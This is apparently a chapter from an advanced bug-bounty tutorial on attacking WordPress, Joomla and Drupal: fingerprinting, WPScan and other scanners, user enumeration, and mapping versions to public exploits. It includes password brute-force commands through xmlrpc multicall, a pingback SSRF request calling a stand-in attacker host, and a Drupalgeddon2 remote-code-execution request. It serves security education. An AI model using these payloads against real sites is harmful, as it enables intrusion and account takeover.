






**Level:** Advanced · **Track:** Bug Bounty & AppSec · **Read time:** 245 min

This is Chapter 3 of the APIs & CMS notebook. The first two chapters attacked APIs from first principles — REST methodology and GraphQL tradecraft — where the bugs live in *your* ability to manipulate requests against custom code. This chapter flips the model. Content-management systems and off-the-shelf frameworks are *someone else's* code, deployed millions of times over, and the winning move is rarely a clever new payload — it is recognising *exactly which* prebuilt software (and which version, and which plugins) is running, then reaching for the pile of public vulnerabilities that already exists for it.

CMS platforms are where a huge fraction of real-world compromise happens. WordPress alone powers roughly 43% of all websites; add Joomla and Drupal and you are looking at a third to a half of the public web running on three codebases whose source is fully open and whose vulnerabilities are catalogued in public databases. A bug-bounty hunter who can fingerprint a target, enumerate its plugins, and map a version string to a known RCE will out-earn a hunter throwing generic payloads at hardened custom apps. This chapter takes you from "what even is a CMS" to landing a shell on a vulnerable WordPress install, and gives you the repeatable methodology to do the same on Joomla, Drupal, and the long tail of niche platforms.

We start at the absolute basics — what a CMS is, the anatomy of core-vs-plugin-vs-theme, why the plugin ecosystem is the real attack surface — then climb to the exact fingerprinting, enumeration, and exploitation tradecraft a senior tester uses, including how to responsibly stay in scope and avoid the trap of running a destructive exploit against production.

---

## Part 1: What Is a CMS, and Why Is It Such a Rich Target?

A **Content Management System (CMS)** is prebuilt web software that lets non-developers create and manage a website — pages, blog posts, media, users, menus — through an admin dashboard instead of by writing code. Rather than hand-coding HTML, the site owner installs the CMS once, then everything is data in a database rendered by templates. WordPress, Joomla, and Drupal are the three classic open-source PHP/MySQL CMSes; Magento (e-commerce), Ghost (Node), and countless SaaS builders round out the field.

A **web framework** (Laravel, Django, Rails, Spring, Express) is a lower-level foundation that developers build custom apps *on top of*. The line blurs — a CMS is essentially a finished application built on a framework — but from an attacker's standpoint the distinction matters: with a CMS you are usually attacking *known, unmodified code* running at millions of sites; with a framework you are attacking *custom code* plus the framework's own occasional flaws (debug pages, mass-assignment, deserialization gadgets).

### Why CMSes are a goldmine for attackers

The economics are lopsided in the attacker's favour, for four concrete reasons:

1. **Open source, publicly auditable.** The core code is on GitHub. Every security fix ships with a diff that tells an attacker precisely what changed — a technique called *patch diffing* that turns a patch into an exploit recipe. This is exactly how Drupalgeddon2 (CVE-2018-7600) went from advisory to mass-exploitation within hours.
2. **Version strings leak everywhere.** Meta generators, readme files, CSS/JS asset paths with `?ver=`, REST endpoints, and login pages all disclose versions. Once you know the version, you know the CVEs.
3. **The plugin/extension ecosystem is enormous and under-reviewed.** WordPress has 60,000+ plugins in its official directory alone, most written by hobbyists, many abandoned. The *core* is relatively hardened; the **plugins are where the bugs are**. A single vulnerable plugin — think the 2020 *File Manager* RCE (CVE-2020-25213) that hit ~700,000 sites — undoes all of core's security.
4. **Default configurations and stale installs.** Admins install once and forget. Public-facing `/wp-admin`, exposed `xmlrpc.php`, readable `readme.html`, debug mode left on, default credentials — the long tail of misconfiguration is vast.

**Bug-bounty relevance:** most programs consider "known CVE in an outdated third-party component" in scope only if you can *demonstrate impact* — a version banner alone is often marked *informational*. The value is in chaining the disclosed version to a *working, in-scope* proof of concept (an authenticated-to-RCE, an unauthenticated file read, an account takeover). Read each program's policy: many explicitly exclude "outdated software without a working PoC" and some exclude WordPress core entirely while accepting plugin bugs.



### The universal CMS-testing methodology

Every CMS engagement, regardless of platform, follows the same skeleton. Memorise this loop — the tools change per platform but the phases never do:

| Phase | Goal | Example tooling |
|-------|------|-----------------|
| **1. Detect** | Confirm it *is* a CMS and which one | Wappalyzer, `whatweb`, CMSeeK, favicon hash |
| **2. Fingerprint** | Exact core version | WPScan, droopescan, JoomScan, meta generator, readme |
| **3. Enumerate** | Plugins, themes, extensions, users, config | WPScan `--enumerate`, droopescan, manual paths |
| **4. Map** | Version → CVE list | WPScan DB, CVE Details, exploit-db, Wordfence Intelligence |
| **5. Validate** | Confirm the vuln is really present | Manual request, safe PoC, version-range check |
| **6. Exploit** | Demonstrate impact | Metasploit module, public PoC, manual chain |
| **7. Report** | Evidence, remediation, CVSS | Screenshots, request/response, patched-version advice |

The rest of this chapter walks each phase in depth, using WordPress as the primary worked example (because it is the most common target you will meet), then generalising to Joomla and Drupal.

---

## Part 2: Anatomy of WordPress — Core, Themes, Plugins, and the Database

You cannot test what you do not understand. Before fingerprinting, internalise how a WordPress site is actually built, because every enumeration path and every vuln class maps directly onto this structure.

### The directory layout

A default WordPress install has three top-level areas under the web root:

```
/                      → site root (index.php bootstraps everything)
├── wp-admin/          → the admin dashboard (login-gated app)
├── wp-includes/       → core libraries, JS/CSS, the REST API internals
├── wp-content/        → EVERYTHING user-installed lives here
│   ├── plugins/       → each plugin in its own folder
│   ├── themes/        → each theme in its own folder
│   ├── uploads/       → media (and, for attackers, the file-upload target)
│   └── mu-plugins/    → "must-use" plugins, auto-loaded, no toggle
├── wp-login.php       → the login form + auth handler
├── xmlrpc.php         → legacy remote API (pingback, multicall)
├── wp-cron.php        → pseudo-cron trigger
├── wp-config.php      → DB creds + secret keys (NEVER web-readable)
└── readme.html        → ships the core version (delete-me candidate)
```

**Security relevance of each path:**

- `wp-content/uploads/` is world-writable by design and web-served — the natural landing zone for an uploaded web shell. Many upload bugs drop a PHP file here.
- `wp-config.php` holds `DB_PASSWORD` and the auth salts. A local-file-read or path-traversal bug that reaches it is instant game-over; a leaked backup (`wp-config.php.bak`, `wp-config.php~`, `.wp-config.php.swp`) is a classic finding.
- `xmlrpc.php` enables `wp.getUsersBlogs` (credential brute-force amplification via `system.multicall`) and pingback SSRF. Its presence is a finding on its own.
- `readme.html` and `wp-includes/` asset `?ver=` strings leak the core version.

### The database

WordPress stores everything in MySQL/MariaDB tables prefixed by default with `wp_`. The ones that matter to an attacker:

| Table | Contents | Attacker interest |
|-------|----------|-------------------|
| `wp_users` | usernames, hashed passwords, emails | Cracking `user_pass` (phpass `$P$` hashes); user enum |
| `wp_usermeta` | capabilities, session tokens, keys | Privilege data; `wp_capabilities` = roles |
| `wp_options` | `siteurl`, `active_plugins`, secrets | `active_plugins` reveals the exact plugin list |
| `wp_posts` | posts, pages, revisions, attachments | Draft/private data leakage; author ID → username |

**Why the hashing matters:** WordPress uses **phpass** portable hashes (`$P$B...`) — salted MD5 with 8,192 iterations by default. They are far weaker than bcrypt/argon2, so a dumped `wp_users` table is very crackable with hashcat mode `400`. That is why a SQL-injection in *any* plugin that reaches this table is high impact.



The single most important takeaway of this section: **core is hard, plugins are soft.** Your enumeration effort should be biased heavily toward finding *which plugins and themes* are installed and at *which versions*, because that is where the exploitable bugs almost always are.

---

## Part 3: Detection & Fingerprinting — Is It a CMS, and Which One?

Before firing CMS-specific scanners, confirm the platform. Running WPScan against a Drupal site wastes time and generates noise. Fingerprinting has passive (no attack traffic) and active (probing) levels — on bug bounty, prefer passive first to stay quiet and in scope.

### Passive indicators you can read from one page

Fetch the homepage and inspect the HTML and headers. Tell-tale signs:

- **Meta generator tag** — the loudest tell:
  ```html
  <meta name="generator" content="WordPress 6.4.2" />
  <meta name="generator" content="Joomla! - Open Source Content Management" />
  <meta name="generator" content="Drupal 9 (https://www.drupal.org)" />
  ```
- **Asset paths** — WordPress serves `/wp-content/` and `/wp-includes/`; Joomla serves `/media/`, `/templates/`, `/components/`; Drupal serves `/sites/default/`, `/core/`, `/modules/`.
- **Cookies** — Drupal sets `SESS<hash>`; Joomla sets a 32-char hex session cookie; WordPress sets `wordpress_*` cookies only after login.
- **HTTP headers** — `X-Generator: Drupal 9`, `X-Powered-By`, `Link: <...wp-json...>` (the WP REST API advertises itself in a `Link` header).
- **Version-bearing query strings** — `?ver=6.4.2` appended to enqueued CSS/JS.
- **`robots.txt`** — WordPress default disallows `/wp-admin/`; Drupal's default lists `/core/`, `/modules/`, `/profiles/`.

### whatweb — the fast recon fingerprinter (from scratch)

**What it is:** `whatweb` is a Ruby web-technology fingerprinter that ships with Kali. It hits a URL and matches the response against 1,800+ plugins (signatures) to name the CMS, server, JS libraries, analytics, and more. It is the fastest "what is this?" tool.

**Install (already on Kali; otherwise):**

```bash
sudo apt update && sudo apt install whatweb -y
whatweb --version
```

**Core usage:**

```bash
# Basic single-target fingerprint
whatweb https://target.example

# Aggression level 3 = more probing requests (1=passive default, 4=heavy)
whatweb -a 3 https://target.example

# Verbose, show every matched plugin and the evidence
whatweb -v https://target.example

# Scan a list, save structured output
whatweb -i targets.txt --log-json=whatweb.json
```

**Flag reference:**

| Flag | Meaning |
|------|---------|
| `-a, --aggression N` | 1 (stealthy/passive), 3 (probe common paths), 4 (heavy, all plugins) |
| `-v` | Verbose — prints the matched string/version and why |
| `-i FILE` | Read targets from a file (one per line) |
| `--log-json=FILE` | JSON output for tooling/pipelines |
| `-U` | Set a custom User-Agent |
| `--max-threads N` | Concurrency for list scans |

**Realistic output:**

```
$ whatweb -a 3 https://blog.target.example
https://blog.target.example [200 OK] Apache[2.4.52], Country[UNITED STATES][US],
HTML5, HTTPServer[Apache/2.4.52 (Ubuntu)], IP[203.0.113.20],
JQuery[3.6.0], MetaGenerator[WordPress 6.2.1], PHP[8.1.2], PoweredBy[WordPress],
Script, Title[Target Blog], WordPress[6.2.1], X-Powered-By[PHP/8.1.2]
```

Right away we have the platform (**WordPress 6.2.1**), server (Apache 2.4.52 on Ubuntu), and PHP version — enough to start mapping CVEs.

### CMSeeK — multi-CMS detection and deep-scan (from scratch)

**What it is:** `CMSeeK` is a Python tool that detects 180+ CMSes and, for WordPress/Joomla/Drupal, performs deeper enumeration (version, users, plugins). It is a good "I don't know what this is yet" first pass.

**Install:**

```bash
git clone https://github.com/Tuhinshubhra/CMSeeK
cd CMSeeK
pip3 install -r requirements.txt
python3 cmseek.py --help
```

**Usage:**

```bash
# Detect + deep scan a single URL
python3 cmseek.py -u https://target.example

# Batch mode from a list
python3 cmseek.py -l targets.txt

# Follow redirects, custom UA
python3 cmseek.py -u https://target.example --user-agent "Mozilla/5.0"
```

**Realistic (trimmed) output:**

```
 [+] Deploying WordPress Detection Modules...
 [+] CMS: WordPress
 [+] Version: 6.2.1
 [+] Users Enumerated: admin, editor, jsmith
 [+] Plugins Detected: contact-form-7 (5.7.1), wp-file-manager (6.8)
 [+] Result written to Result/target.example/cms.json
```

Note `wp-file-manager 6.8` — if that were 6.0–6.8 it would be catastrophic (the CVE-2020-25213 unauthenticated RCE lived there); always cross-check versions against advisories rather than trusting the plugin name alone.

### Favicon hashing — identifying stacks at scale

A neat passive trick: many CMSes/frameworks ship a default favicon. Its MurmurHash3 is a stable fingerprint that Shodan indexes (`http.favicon.hash:`). Compute it and pivot:

```python
import mmh3, requests, codecs
r = requests.get("https://target.example/favicon.ico")
h = mmh3.hash(codecs.encode(r.content, "base64"))
print(h)   # e.g. -1660713596  → search Shodan http.favicon.hash:-1660713596
```

**Red team / recon usage:** favicon hashing lets you find *all* of an organisation's sites running the same stack (including forgotten dev/staging boxes) without touching them directly — you query Shodan/Censys instead, which is fully passive against the target.

---

## Part 4: WPScan From Scratch — The WordPress Security Scanner

`WPScan` is the canonical WordPress black-box scanner. It fingerprints the core version, enumerates plugins/themes/users, checks each against its vulnerability database, and can run credential attacks. Learning it well is 80% of practical WordPress testing.

### What it is and how it works

WPScan is a Ruby application maintained by the WPScan/Automattic team. It ships with a local copy of the **WPScan Vulnerability Database** — a curated feed of WordPress core, plugin, and theme CVEs. When it detects, say, `contact-form-7 5.7.1`, it looks up known vulns affecting that version range and prints them. The database is the product; keeping it updated is essential.

### Install and API token

WPScan is preinstalled on Kali. Otherwise:

```bash
# Ruby gem (cross-platform)
sudo gem install wpscan

# or Docker
docker pull wpscanteam/wpscan
docker run -it --rm wpscanteam/wpscan --url https://target.example

wpscan --version
```

**The API token (do this first):** WPScan works without a token but will *not* show vulnerability data — only the raw version/plugin list. Register a free account at wpscan.com to get an API token (25 requests/day free), then pass it so the scanner enriches findings with CVEs:

```bash
wpscan --url https://target.example --api-token YOUR_TOKEN_HERE
```

Store it in `~/.wpscan/scan.yml` to avoid typing it:

```yaml
cli_options:
  api_token: YOUR_TOKEN_HERE
```

### Core workflow

```bash
# 1. Baseline scan: version, theme, some plugins, config bugs
wpscan --url https://target.example

# 2. Update the local vuln DB first (do this each session)
wpscan --update
```

**Realistic baseline output (annotated):**

```
[+] URL: https://target.example/ [203.0.113.20]
[+] Started: ...

Interesting Finding(s):
[+] Headers | Server: Apache/2.4.52 (Ubuntu)
[+] XML-RPC seems to be enabled: https://target.example/xmlrpc.php
[+] WordPress readme found: https://target.example/readme.html
[+] Upload directory has listing enabled: https://target.example/wp-content/uploads/
[+] The external WP-Cron seems to be enabled: https://target.example/wp-cron.php

[+] WordPress version 6.2.1 identified (Insecure, released 2023-05-16).
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Meta Generator (Passive Detection)

[+] WordPress theme in use: twentytwentythree
 | Version: 1.1 (80% confidence)

[i] The main theme could not be detected as vulnerable.
```

Each of those "Interesting Findings" is a reportable observation on its own (XML-RPC enabled, directory listing, readme exposing the version).

### Enumeration — the `--enumerate` engine

The real power is `--enumerate` (`-e`). It takes a comma-separated list of what to hunt:

```bash
wpscan --url https://target.example \
  --enumerate vp,vt,tt,cb,dbe,u1-20 \
  --api-token YOUR_TOKEN \
  --plugins-detection aggressive \
  --random-user-agent
```

**Enumerate options reference:**

| Token | Enumerates |
|-------|-----------|
| `vp` | **V**ulnerable **p**lugins only |
| `ap` | **A**ll **p**lugins (much noisier, more thorough) |
| `p`  | Popular plugins |
| `vt` | Vulnerable themes |
| `at` | All themes |
| `tt` | **T**im**t**humbs (the classic `timthumb.php` RFI/upload) |
| `cb` | **C**onfig **b**ackups (`wp-config.php.bak`, `.swp`, `~`) |
| `dbe`| **D**ata**b**ase **e**xports (`.sql` dumps left in web root) |
| `u`  | **U**sers (e.g. `u1-20` probes IDs 1–20) |
| `m`  | Media IDs |

**Key flags to control behaviour:**

| Flag | Purpose |
|------|---------|
| `--plugins-detection MODE` | `passive` (reads homepage), `aggressive` (brute-forces plugin paths — far more complete), `mixed` |
| `--plugins-version-detection MODE` | How hard to work for exact plugin versions |
| `--random-user-agent` / `--rua` | Rotate UA to dodge basic WAF signatures |
| `--stealthy` | Alias: passive detection + random UA, minimal noise |
| `--throttle N` | Milliseconds between requests (be polite / evade rate limits) |
| `--max-threads N` | Concurrency (default 5) |
| `--force` | Skip the "is this WordPress?" check and scan anyway |
| `--disable-tls-checks` | Ignore TLS cert errors (self-signed lab targets) |
| `-o FILE -f json` | Output to a file in JSON format for pipelines |

**Why `aggressive` plugin detection matters:** passive detection only finds plugins that leave traces on the homepage. Aggressive mode requests known plugin paths (e.g. `/wp-content/plugins/wp-file-manager/readme.txt`) directly, catching installed-but-inactive or non-obvious plugins — which are frequently the vulnerable ones. The trade-off is thousands of requests and a louder footprint.

**Realistic plugin-enumeration output with a vuln hit:**

```
[+] wp-file-manager
 | Location: https://target.example/wp-content/plugins/wp-file-manager/
 | Last Updated: 2023-10-02
 | Version: 6.8 (100% confidence)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: File Manager 6.0-6.8 - Unauthenticated Arbitrary File Upload leading to RCE
 |     Fixed in: 6.9
 |     References:
 |      - https://wpscan.com/vulnerability/8dd671bd-...
 |      - https://nvd.nist.gov/vuln/detail/CVE-2020-25213
 |      - https://www.exploit-db.com/exploits/49178
```

That single block is the whole game: plugin, version, CVE, fixed-in version, and an exploit-db reference to a working PoC. This is what the API token buys you.

### User enumeration with WPScan

```bash
wpscan --url https://target.example --enumerate u1-30
```

WPScan discovers usernames via the author archive redirect (`/?author=1` → `/author/admin/`), the REST API (`/wp-json/wp/v2/users`), RSS feeds, and login error differences. Output:

```
[i] User(s) Identified:
[+] admin  (Found By: Author Posts - Display Name, Rss Generator)
[+] editor (Found By: Wp Json Api (/wp-json/wp/v2/users/))
[+] jsmith (Found By: Author Id Brute Forcing (/?author=3))
```

**Why usernames matter:** WordPress login tells you which half of the credential is wrong ("invalid username" vs "the password you entered for the username X is incorrect"), so a valid username list turns login into a pure password-guessing problem.

### Password attacks with WPScan (lawful, in-scope only)

WPScan can brute-force via the standard login form or the faster `xmlrpc.php` multicall:

```bash
wpscan --url https://target.example \
  --usernames admin,editor,jsmith \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack xmlrpc \
  --max-threads 10 \
  --throttle 200
```

**Attack-mode flag `--password-attack`:**

| Value | Mechanism | Notes |
|-------|-----------|-------|
| `wp-login` | POSTs to `wp-login.php` | Slower; visible in web logs as failed logins |
| `xmlrpc` | `system.multicall` bundles many guesses per request | Much faster; blocked if `xmlrpc.php` disabled |
| `xmlrpc-multicall` | Explicit multicall | Fastest where allowed |

> **Ethics & scope:** online password attacks are intrusive, generate real failed-login events, and can lock out accounts. Only run them against systems you are explicitly authorised to test, and check the program policy — many bug-bounty programs **prohibit** brute-forcing and account lockout testing. Prefer a tiny, targeted list over `rockyou.txt` on a live target.



---

## Part 5: The REST API and XML-RPC as Enumeration Surfaces

Modern WordPress exposes a REST API under `/wp-json/`, and it leaks by default. This is pure, passive, low-risk enumeration — perfect for bug bounty where you want signal without intrusive traffic.

### The users endpoint

```bash
curl -s https://target.example/wp-json/wp/v2/users | jq '.[] | {id, name, slug}'
```

```json
{ "id": 1, "name": "Site Admin", "slug": "admin" }
{ "id": 2, "name": "Jane Smith", "slug": "jsmith" }
```

The `slug` is almost always the login username. Even when `/?author=N` redirects are blocked, this JSON endpoint frequently still answers. Hardened sites restrict it to authenticated requests (returns `[]` or 401) — its openness is itself a finding.

### Enumerating everything else via REST

```bash
# Discover all registered routes (reveals plugins that register REST routes)
curl -s https://target.example/wp-json/ | jq '.routes | keys[]'

# Posts, pages, media, categories — content and author IDs
curl -s "https://target.example/wp-json/wp/v2/posts?per_page=100" | jq '.[].author'
```

Registered custom routes (`/wp-json/some-plugin/v1/...`) reveal *which plugins are installed and active* — and plugin REST routes have historically been a rich bug source (missing `permission_callback` = unauthenticated access to privileged actions, as in several real CVEs).

### xmlrpc.php — legacy but dangerous

`xmlrpc.php` is the pre-REST remote API. Check whether it is enabled and which methods it exposes:

```bash
curl -s https://target.example/xmlrpc.php -d \
'<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

Two abuse primitives stand out:

- **`system.multicall` credential-brute amplification** (shown above) — hundreds of password guesses per HTTP request.
- **`pingback.ping` SSRF/DDoS** — the server fetches an attacker-supplied URL to "verify" a pingback, enabling blind SSRF and reflective DDoS:
  ```xml
  <methodCall><methodName>pingback.ping</methodName><params>
    <param><value>http://attacker-collab.example/</value></param>
    <param><value>https://target.example/?p=1</value></param>
  </params></methodCall>
  ```
  If your collaborator/interactsh endpoint receives the callback, you have blind SSRF via the WordPress server.

**Blue-team note:** `xmlrpc.php` has almost no modern legitimate use for most sites (the mobile app and Jetpack are the main consumers). Disabling or restricting it removes both the brute-amplification and pingback-SSRF surface in one move.

---

## Part 6: Joomla Testing — JoomScan and Manual Enumeration

Joomla is the second-most-common target. The methodology mirrors WordPress but the paths and tools differ.

### Joomla anatomy

```
/administrator/   → admin login + backend
/components/       → major functional units (com_content, com_users, ...)
/modules/          → smaller UI blocks
/plugins/          → event-driven extensions
/templates/        → themes
/language/en-GB/en-GB.xml  → often leaks the exact Joomla version
/configuration.php → DB creds (never web-readable; backups are gold)
```

### Version fingerprinting (manual)

Joomla version leaks from several stable locations:

```bash
# The language XML almost always carries the version
curl -s https://target.example/language/en-GB/en-GB.xml | grep -i version

# The admin manifest / cache manifest
curl -s https://target.example/administrator/manifests/files/joomla.xml | grep -i version

# The meta generator on the homepage
curl -s https://target.example/ | grep -i generator
```

### JoomScan from scratch

**What it is:** `joomscan` (OWASP JoomScan) is a Perl scanner dedicated to Joomla — it fingerprints the version, enumerates components, finds known vulnerabilities and misconfigurations (directory listing, backup/config files, firewall detection).

**Install:**

```bash
sudo apt install joomscan -y          # Kali package
# or from source:
git clone https://github.com/OWASP/joomscan
cd joomscan && perl joomscan.pl --help
```

**Usage and flags:**

```bash
# Full scan
joomscan --url https://target.example

# Enumerate installed components specifically
joomscan --url https://target.example --enumerate-components

# Through a proxy (route via Burp for logging), custom UA, cookie
joomscan -u https://target.example --proxy http://127.0.0.1:8080 \
  --user-agent "Mozilla/5.0" --cookie "name=value"
```

| Flag | Meaning |
|------|---------|
| `-u, --url` | Target |
| `--enumerate-components` / `-ec` | Brute-force known component paths |
| `--proxy` | Send traffic through a proxy (Burp) |
| `--cookie` | Attach a session cookie |
| `--user-agent` | Custom UA |

**Realistic output:**

```
[+] Detecting Joomla Version
[++] Joomla 3.9.4
[+] Core Joomla Vulnerability
[++] CVE-2019-10945 - Directory Traversal & File deletion in com_media
[+] Checking Directory Listing
[++] http://target.example/administrator/components/  Directory listing found
[+] Checking apache info/status files
[+] Enumerating Components...
[++] Component: com_fields  (core)
[++] Component: com_jce  1.5.7.14  -> known LFI/upload vulns in older versions
[+] Report saved to reports/target.example/
```

`com_jce` (JCE editor) older versions are a classic Joomla RCE via file upload — exactly the kind of "known component + version → public exploit" chain this chapter is about.

### droopescan — Joomla + Drupal + more

**What it is:** `droopescan` is a Python plugin-based scanner that supports Drupal (best-in-class), Joomla, WordPress, SilverStripe, and Moodle. It is the go-to for Drupal version fingerprinting.

```bash
pip3 install droopescan
droopescan scan joomla --url https://target.example
droopescan scan drupal --url https://target.example
# Let it auto-detect the CMS:
droopescan scan -u https://target.example
```

Sample Drupal run:

```
[+] Plugins found:
    ...
[+] Themes found:
    ...
[+] Possible version(s):
    7.57
    7.58
[+] Possible interesting urls found:
    Default admin - https://target.example/user/login
    CHANGELOG.txt - https://target.example/CHANGELOG.txt
```

`CHANGELOG.txt` on Drupal is the readme.html equivalent — it pins the exact version, which you then map to Drupalgeddon-class CVEs.

---

## Part 7: Drupal Testing and the Drupalgeddon Lesson

Drupal powers fewer but higher-value sites (governments, universities, enterprises). Two historic bugs make Drupal a case study in *why* known-vuln testing works.

### Fingerprinting Drupal

```bash
# Version from CHANGELOG (older Drupal 7) or via droopescan
curl -s https://target.example/CHANGELOG.txt | head -5

# Drupal 8+ hides CHANGELOG; use the generator header/meta or droopescan
curl -sI https://target.example | grep -i x-generator
droopescan scan drupal -u https://target.example
```

### Drupalgeddon2 (CVE-2018-7600) — anatomy of a mass-exploited RCE

Drupalgeddon2 was an unauthenticated remote code execution flaw in Drupal 7 and 8 caused by insufficient input sanitisation of the *Form API* — attacker-controlled array keys (like `#post_render`, `#lazy_builder`) in a request could invoke arbitrary PHP callbacks with arguments. A single crafted POST to a form endpoint (e.g. the user-registration form) ran code as the web server.

Conceptually, the malicious request injected a render-array property:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

The `#post_render` callback (`exec`) is invoked with `#markup` (`id`) as its argument → command execution. Within hours of disclosure, botnets were mass-scanning for it. **The lesson for a tester:** the entire attack is "detect Drupal 7/8 below the patched version, then send one known request." No creativity required — which is precisely why patch cadence is the real defence.

### Drupalgeddon3 and SA-CORE advisories

Drupalgeddon3 (CVE-2018-7602) was a related Form-API RCE requiring a session. Drupal's SA-CORE advisories are the canonical source for mapping a version to its known-critical bugs — bookmark `drupal.org/security`. droopescan gives you the version; the SA-CORE list gives you the exploits.



---

## Part 8: From Version to Exploit — Mapping, Finding, and Vetting Public Vulns

Detecting a version is only half the job. Turning "plugin X v1.2" into a working, safe, in-scope proof of concept is the skill that separates a scanner-runner from a tester.

### The vulnerability databases you must know

| Source | What it's best for |
|--------|--------------------|
| **WPScan DB** (wpscan.com) | WordPress core/plugin/theme CVEs with fixed-in versions |
| **Wordfence Intelligence** (wordfence.com/threat-intel) | Free, searchable WP plugin/theme vuln feed with CVSS + PoC status |
| **Exploit-DB** (exploit-db.com) | Actual working exploit code, searchable offline via `searchsploit` |
| **NVD / CVE Details** | Canonical CVE metadata, CVSS, affected ranges |
| **Packet Storm / GitHub PoCs** | Community exploit code (vet carefully) |
| **Vendor advisories** | Drupal SA-CORE, Joomla Security Announcements, plugin changelogs |

### searchsploit from scratch — the offline Exploit-DB

**What it is:** `searchsploit` is a command-line search over a *local mirror* of Exploit-DB. It works offline, returns exploit file paths you can read/copy, and is the fastest way to check "is there public exploit code for this?".

**Install / update:**

```bash
sudo apt install exploitdb -y      # ships with Kali
searchsploit -u                    # update the local exploit DB
```

**Usage and flags:**

```bash
# Search by product + version
searchsploit wordpress file manager

# Restrict to titles, case-insensitive
searchsploit -t joomla com_jce

# Show the full path + mirror (copy) the exploit locally to work on it
searchsploit -p 49178
searchsploit -m 49178              # copies exploit 49178 into CWD

# Search by CVE
searchsploit --cve 2020-25213

# JSON output for tooling
searchsploit --json wordpress duplicator
```

| Flag | Meaning |
|------|---------|
| `-t` | Search **t**itles only (fewer false positives) |
| `-e` | **E**xact match |
| `-p` | Show the full path + copy the URL to clipboard |
| `-m ID` | **M**irror (copy) the exploit file to the current directory |
| `-x ID` | E**x**amine (open) the exploit in a pager |
| `--cve` | Search by CVE identifier |
| `-w` | Show Exploit-DB **w**eb links |
| `-u` | **U**pdate the local database |

**Realistic output:**

```
$ searchsploit wp-file-manager
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
WordPress Plugin File Manager 6.0-6.8 - RCE              | php/webapps/49178.py
